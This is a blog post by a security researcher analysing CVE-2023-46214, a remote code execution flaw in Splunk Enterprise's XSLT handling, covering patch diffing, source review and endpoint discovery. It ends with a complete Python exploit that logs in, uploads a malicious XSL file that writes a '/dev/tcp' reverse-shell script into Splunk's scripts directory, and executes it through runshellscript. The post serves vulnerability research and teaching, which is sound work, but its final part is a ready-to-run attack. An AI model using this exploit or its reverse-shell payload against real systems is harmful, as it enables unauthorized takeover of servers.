






Analysis of CVE-2023-46214 + PoC
CVE-2023-46214 is a Remote Code Execution (RCE) vulnerability found in Splunk Enterprise which was disclosed on November 16, 2023 in the Splunk security advisory SVD-2023-1104. The description of the vulnerability essentially states that Splunk Enterprise versions below 9.0.7 and 9.1.2 are not safely sanitizing user supplied extensible stylesheet language transformations (XSLT).
|  |
|---|
| Proof of concept demo |
Introduction
After seeing the news of a Splunk RCE vulnerability with no public proof of concept, I jumped on the opportunity hunt it down myself as vulnerability research and exploit development learning exercise. This blog post describes my methodology for uncovering the vulnerability based off of the CVE description, as well as a full proof of concept exploit. This is my first blog post so if you know how to contact me, feel free to provide any feedback or suggestions for improvement :)
Methodology
To find and exploit this vulnerability, a few things would be very helpful. Firstly, obtaining the source code for both the vulnerable Splunk Enterprise version 9.1.1 and the patched version 9.1.2. With both the vulnerable and patched version I was able to compare the differences in code to find how the vulnerability was fixed, and how I could exploit the insecure version. Second, having a vulnerable instance of Splunk Enterprise 9.1.1 running locally so I could test as much as I wanted.
Patch diffing
The first stage in my research was performing a diff on the patched and vulnerable Splunk versions. After searching through the files that were updated in the new version, I came across a promising file.
$SPLUNK_HOME/lib/python3.7/site-packages/splunk/appserver/mrsparkle/controllers/search.py
There is some relevant updates related to handling XSL files in here…
Splunk Enterprise diff - 9.1.1 vs 9.1.2 search.py
--- /opt/splunk9.1.1/splunk/lib/python3.7/site-packages/splunk/appserver/mrsparkle/controllers/search.py 2023-08-25 10:02:22.000000000 -0700
+++ /opt/splunk9.1.2/splunk/lib/python3.7/site-packages/splunk/appserver/mrsparkle/controllers/search.py 2023-11-13 18:20:51.000000000 -0800
@@ -338,0 +339,19 @@
+ @staticmethod
+ def parse_xsl_file_and_validate(xsl_file_path):
+ f = open(xsl_file_path, 'r')
+ xslt_doc = et.parse(f)
+ f.close()
+
+ meta_data = {
+ "output": '',
+ "is_valid_xsl": True,
+ "xslt_doc": xslt_doc
+ }
+
+ is_exsl_namespace_present = not xslt_doc.getroot().nsmap.get("exsl") is None
+ if is_exsl_namespace_present:
+ logger.warning('File xsl="%s" has exsl namespace' % xsl_file_path)
+ raise Exception("Uploaded XSL File has malicious content")
+
+ return meta_data
+
@@ -476,18 +495,20 @@
- f = open(xslFilePath, 'r')
- xslt_doc = et.parse(f)
- f.close()
-
- # generate transformer
- transform = et.XSLT(xslt_doc)
-
- # transform the XML
- xmlDoc = et.fromstring(output)
- transformedOutput = transform(xmlDoc)
-
- cherrypy.response.headers['content-type'] = MIME_HTML
-
- html = et.tostring(transformedOutput)
- if not html:
- output = 'Loading...'
- else:
- output = html
+ validated_xslt_doc = JobsController.parse_xsl_file_and_validate(xslFilePath)
+ output = validated_xslt_doc["output"]
+
+ if validated_xslt_doc["is_valid_xsl"] is True:
+ xslt_doc = validated_xslt_doc["xslt_doc"]
+
+ # generate transformer
+ transform = et.XSLT(xslt_doc)
+
+ # transform the XML
+ xmlDoc = et.fromstring(output)
+ transformedOutput = transform(xmlDoc)
+
+ cherrypy.response.headers['content-type'] = MIME_HTML
+
+ html = et.tostring(transformedOutput)
+ if not html:
+ output = 'Loading...'
+ else:
+ output = html
@@ -494,0 +516 @@
+ cherrypy.response.status = 500
This diff reveals the introduction of the new function, parse_xsl_file_and_validate. Hmmmm, this function seems very interesting, especially since this function examines a given XSL document for the exsl namespace. If there is an exsl namespace present, an exception is raised.
There is also codeblock in the getJobAsset function that used to just run, but now it will only execute if the parse_xsl_file_and_validate check succeeds.
Jackpot? Not so fast, there is still quite a few hurdles that must be overcome.
- Craft a valid XSL file that will lead to RCE.
- Review the source code to understand how this can be exploited.
- Figure out how to call the vulnerable code from Splunk Web.
Crafting XSL payload
From the parse_xsl_file_and_validate function I was able to determine that an exsl namespace within the XSL file would be needed during this exploit. Insecure XSL transformation vulnerabilities are much less documented than other common bugs. Thankfully I was able to find an old OWASP presentation from 2015 which had an example of how an exsl namespace can be used during an XSL transformation to write arbitrary files. Wait a minute though, writing arbitrary files isn’t RCE 🤔
Going forward I needed to re-evaluate how to achieve RCE with just an arbitrary file write to Splunk.
But before getting ahead of myself I need to craft a malicious XSL file that will write files using the same parsing and translation method as Splunk. Splunk is using lxml library to handle the parsing and translations, so I was able to just copy the relevant source code from getJobAsset to a new file and perform some tests.
# test_transform.py
from lxml import etree as et
xslFilePath = "test.xslt"
f = open(xslFilePath, 'r')
xslt_doc = et.parse(f)
f.close()
output = "<root>test</root>"
# generate transformer
transform = et.XSLT(xslt_doc)
# transform the XML
xmlDoc = et.fromstring(output)
transformedOutput = transform(xmlDoc)
html = et.tostring(transformedOutput)
if not html:
output = 'Loading...'
else:
output = html
print(output)
<!-- test.xslt -->
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:exsl="http://exslt.org/common" extension-element-prefixes="exsl">
<xsl:template match="/">
<exsl:document href="nathan_hacked_u.txt" method="text">
<xsl:text>hello :^)</xsl:text>
</exsl:document>
</xsl:template>
</xsl:stylesheet>
After some trial and error changing the contents of test.xslt, I was able to write an arbitrary file to my local system by taking advantage of the exsl namespace 😎

Source code review
The next stage in my research was to pinpoint any vulnerable segments within the code and subsequently determine the conditions necessary to execute those segments.
The following code is inside the codeblock mentioned earlier that only executes when the parse_xsl_file_and_validate check passes. Restricting this execution to instances where a check passes is a great indicator that it could be exploited if unsanitized user input is able to reach it.
# generate transformer
transform = et.XSLT(xslt_doc)
# transform the XML
xmlDoc = et.fromstring(output)
transformedOutput = transform(xmlDoc)
This is also the same code I copied when testing the exsl file write poc, confirming this is the code I needed to reach. Having identified the above snippet as the vulnerable code, the next step is to determine the conditions required to execute it. Below, I have provided annotated segments from the parent function getJobAsset for analysis.
@route('/:sid/:asset', methods='GET') # 1
@expose_page(handle_api=ONLY_API)
@set_cache_level("never")
def getJobAsset(self, sid, asset, compat_mode=True, **kwargs):
...
enableSearchJobXslt = splunk.util.normalizeBoolean(cherrypy.config.get('enableSearchJobXslt')) # 2
moduleName = cherrypy.request.headers.get('X-Splunk-Module', None) # 3
...
elif moduleName and ('xsl' in kwargs) and output and enableSearchJobXslt: # 4
# get XSL file
xslFilePath = os.path.abspath(bundle_paths.expandvars(os.path.join(self.moduleRoster[moduleName]['path'], kwargs['xsl'])))
splunkHomePath = bundle_paths.expandvars('$SPLUNK_HOME')
xsl_file_meta_data = JobsController.get_xsl_file_meta_data(xslFilePath)
if not xsl_file_meta_data.get("file_exists"): # 5
cherrypy.response.headers['content-type'] = MIME_HTML
logger.warn('File xsl="%s" is not available' % xslFilePath)
output = 'The file you are trying to access is not available'
elif not xsl_file_meta_data.get("is_valid_extension"): #6
cherrypy.response.headers['content-type'] = MIME_HTML
logger.warn('File xsl="%s" is not available' % xslFilePath)
output = 'The file you are trying to access does not have a valid extension.'
elif xslFilePath.startswith(splunkHomePath): # 7
try:
f = open(xslFilePath, 'r')
xslt_doc = et.parse(f)
f.close()
# generate transformer
transform = et.XSLT(xslt_doc)
# transform the XML
xmlDoc = et.fromstring(output)
transformedOutput = transform(xmlDoc) # 8
Using the # annotations, the list of requirements are as follows.
- Provide valid sid and asset to endpoint
- enableSearchJobXslt must be True in splunk config (True by default)
- X-Splunk-Module header needs to be set
- XSL value must be sent in GET request
- xslFilePath must point to a file that exists
- xslFilePath file extension must end with .xsl or .xslt
- xslFilePath must start with $SPLUNK_HOME (/opt/splunk)
- Trigger insecure XSL transformation
Finding the endpoint in Splunk Web
Now that I have an XSL payload, and know the requirements to reach the vulnerable code when calling the getJobAsset function, I needed to figure out how to call getJobAsset from the web application. In the getJobAsset function there is route definition and a reference to API 🤔 This combined with the class definition was a great help in finding the correct API endpoint.
class JobsController(BaseController):
"""
/search/jobs # thanks for this comment
Manages job control.
Endpoints return a standard json envelope:
{ messages: [{type: 'ERROR', 'text': 'Abe ate the job.'}],
data: None,
success: True }
"""
...
@route('/:sid/:asset', methods='GET') # and this
@expose_page(handle_api=ONLY_API)
@set_cache_level("never")
def getJobAsset(self, sid, asset, compat_mode=True, **kwargs):
To confirm I had found the correct endpoint, I visited my docker Splunk instance at en-US/api/search/jobs/test/results. I was returned a json response stating the sid test does not exist. Great! The endpoint exists and that is the expected response from getJobAsset when a job sid is not found.
{"success": false, "offset": 0, "count": 0, "total": 0, "messages": [{"type": "ERROR", "message": "job sid=test not found", "time": "2023-11-18T03:39:18+0000"}], "data": null}
Exploit ready? Nope
At this point I’ve crossed off multiple necessary items for the exploit to work, but there is still some more that needs to be done.
- Need an .xsl or .xslt file to be on the system in a predictable location within /opt/splunk
- Need to figure out what to write and where to trigger RCE.
Uploading the XSL file to a predictable location
Playing around within the webapp UI, I found an adddatamethod endpoint where a user can upload a file. After uploading the file you are returned a JSON response with a value that resembles a SID. This SID may not seem relevant now, but it’s extremely useful.

{"messages":[{"type":"INFO","text":"1700351145.365"}]}
After uploading the file, I searched the docker container to find where my file.xsl got stored on the system.

The file.xsl was uploaded to /opt/splunk/var/run/splunk/dispatch/1700351145.365/file.xsl 👀 This is great since the absolute path begins with /opt/splunk, meaning the check in the getJobAsset function will pass. But where are the numbers 1700351145.365 coming from in the filepath?
It sure looks a lot like the value that was returned from our upload request earlier. Checking the two against each other and I confirmed that the json “text” value is present in the absolute path where my malicious XSL was uploaded.
What should I write and where???
At this point, I’m able to write a file anywhere on the system that the splunk user has access to. I initially thought overwriting some config files could trigger the RCE on a restart, or maybe during a automated task, but this seemed like it will undesirable results if something goes wrong.
I soon found out that Splunk Enterprise has a Splunk Search Language (SPL) command named runshellscript which is used to integrate and automate external processes and tasks. The runshellscript scripts must be located in $SPLUNK_HOME/bin/scripts to be executed, and can be called using the search query “|runshellscript script_name.sh”
Putting it all together
All the necessary steps to get RCE have been identified!
To recap, I’ve crafted a malicious XSL file, found a predictable location to upload the malicous XSL file, determined the requirements needed to trigger the arbitrary file, identified where to write the shell script to, and how to execute the newly written script.
- ✔️ Crafted valid XSL file
- ✔️ Determined requirements to reach vuln code
- ✔️ Identified vulnerable endpoint
- ✔️ Predictable upload file location
- ✔️ Know where to write script
- ✔️ Can execute script
I’ve consolidated all of the steps required for exploitation into a single python script which can be found on my Github at Splunk-RCE-poc.
Demonstration with screenshots
-
Upload malicious XSL file
-
Trigger insecure XSL transformation via
getJobAssetfunction  -
Execute SPL command runshellscript to send the reverse shell 🤩 
Conclusion + PoC
Thank you for reading my first blog post :) I hope you’ve found it interesting and learned something new about n-day exploit development 😎
POC:
#!/usr/bin/env python3
import argparse
import requests
import json
# proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
proxies = {}
def generate_malicious_xsl(ip, port):
return f"""<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exsl="http://exslt.org/common" extension-element-prefixes="exsl">
<xsl:template match="/">
<exsl:document href="/opt/splunk/bin/scripts/shell.sh" method="text">
<xsl:text>sh -i >& /dev/tcp/{ip}/{port} 0>&1</xsl:text>
</exsl:document>
</xsl:template>
</xsl:stylesheet>
"""
def login(session, url, username, password):
login_url = f"{url}/en-US/account/login?return_to=%2Fen-US%2Faccount%2F"
response = session.get(login_url, proxies=proxies)
cval_value = session.cookies.get("cval", None)
if not cval_value:
return False
auth_payload = {
"cval": cval_value,
"username": username,
"password": password,
"set_has_logged_in": "false",
}
auth_url = f"{url}/en-US/account/login"
response = session.post(auth_url, data=auth_payload, proxies=proxies)
return response.status_code == 200
def get_cookie(session, url):
response = session.get(url, proxies=proxies)
return response.status_code == 200
def upload_file(session, url, file_content, csrf_token):
files = {'spl-file': ('shell.xsl', file_content, 'application/xslt+xml')}
upload_headers = {
"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
"Accept": "text/javascript, text/html, application/xml, text/xml, */*",
"X-Requested-With": "XMLHttpRequest",
"X-Splunk-Form-Key": csrf_token,
}
upload_url = f"{url}/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl"
response = session.post(upload_url, files=files, headers=upload_headers, verify=False, proxies=proxies)
try:
text_value = json.loads(response.text)['messages'][0]['text']
if "concatenate" in text_value:
return False, None
return True, text_value
except (json.JSONDecodeError, KeyError, IndexError):
return False, None
def get_job_search_id(session, url, username, csrf_token):
jsid_data = {'search': f'|search test|head 1'}
jsid_url = f"{url}/en-US/splunkd/__raw/servicesNS/{username}/search/search/jobs?output_mode=json"
upload_headers = {
"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
"X-Requested-With": "XMLHttpRequest",
"X-Splunk-Form-Key": csrf_token,
}
response = session.post(jsid_url, data=jsid_data, headers=upload_headers, verify=False, proxies=proxies)
try:
jsid = json.loads(response.text)['sid']
return True, jsid
except (json.JSONDecodeError, KeyError, IndexError):
return False, None
def trigger_xslt_transform(session, url, jsid, text_value):
xslt_headers = {
"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
"X-Splunk-Module": "Splunk.Module.DispatchingModule",
"Connection": "close",
"Upgrade-Insecure-Requests": "1",
"Accept-Language": "en-US,en;q=0.5",
"Accept-Encoding": "gzip, deflate",
"X-Requested-With": "XMLHttpRequest",
}
exploit_endpoint = f"{url}/en-US/api/search/jobs/{jsid}/results?xsl=/opt/splunk/var/run/splunk/dispatch/{text_value}/shell.xsl"
response = session.get(exploit_endpoint, verify=False, headers=xslt_headers, proxies=proxies)
return response.status_code == 200
def trigger_reverse_shell(session, url, username, jsid, csrf_token):
runshellscript_data = {'search': f'|runshellscript "shell.sh" "" "" "" "" "" "" "" "{jsid}" ""'}
runshellscript_url = f"{url}/en-US/splunkd/__raw/servicesNS/{username}/search/search/jobs"
upload_headers = {
"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
"X-Requested-With": "XMLHttpRequest",
"X-Splunk-Form-Key": csrf_token,
}
response = session.post(runshellscript_url, data=runshellscript_data, headers=upload_headers, verify=False, proxies=proxies)
return response.status_code == 201
def main():
parser = argparse.ArgumentParser(description='Splunk CVE-2023-46214 RCE PoC')
parser.add_argument('--url', required=True, help='Splunk instance URL')
parser.add_argument('--username', required=True, help='Splunk username')
parser.add_argument('--password', required=True, help='Splunk password')
parser.add_argument('--ip', required=True, help='Reverse Shell IP')
parser.add_argument('--port', required=True, help='Reverse Shell Port')
args = parser.parse_args()
session = requests.Session()
print("[!] CVE: CVE-2023-46214")
print("[!] Github: https://github.com/nathan31337/Splunk-RCE-poc")
if not login(session, args.url, args.username, args.password):
print("[-] Authentication failed")
exit()
print("[+] Authentication successful")
print("[*] Grabbing CSRF token", end="\r")
if not get_cookie(session, f"{args.url}/en-US"):
print("[-] Failed to obtain CSRF token")
exit()
print("[+] CSRF token obtained")
csrf_token = session.cookies.get("splunkweb_csrf_token_8000", None)
malicious_xsl = generate_malicious_xsl(args.ip, args.port)
uploaded, text_value = upload_file(session, args.url, malicious_xsl, csrf_token)
if not uploaded:
print("[-] File upload failed")
exit()
print("[+] Malicious XSL file uploaded successfully")
jsid_created, jsid = get_job_search_id(session, args.url, args.username, csrf_token)
if not jsid_created:
print("[-] Creating job failed")
exit()
print("[+] Job search ID obtained")
print("[*] Grabbing new CSRF token", end="\r")
if not get_cookie(session, f"{args.url}/en-US"):
print("[-] Failed to obtain CSRF token")
exit()
print("[+] New CSRF token obtained")
if not trigger_xslt_transform(session, args.url, jsid, text_value):
print("[-] XSLT Transform failed")
exit()
print("[+] Successfully wrote reverse shell to disk")
if not trigger_reverse_shell(session, args.url, args.username, jsid, csrf_token):
print("[-] Failed to execute reverse shell")
exit()
print("[+] Reverse shell executed! Got shell?")
if __name__ == "__main__":
main()
Legal Disclaimer
The Proof of Concept (PoC) script provided serves solely for educational and research objectives. Its purpose is to showcase a specific vulnerability and aid in comprehending associated security risks.
Any use of this script for unauthorized activities, including but not limited to unauthorized system access, unauthorized testing, or other forms of misuse, is unequivocally forbidden.
The creators and contributors of this script disclaim all liability for the improper use or any damage or harm resulting from the use of this script. By utilizing this script, you consent to use it in a responsible manner and at your own risk.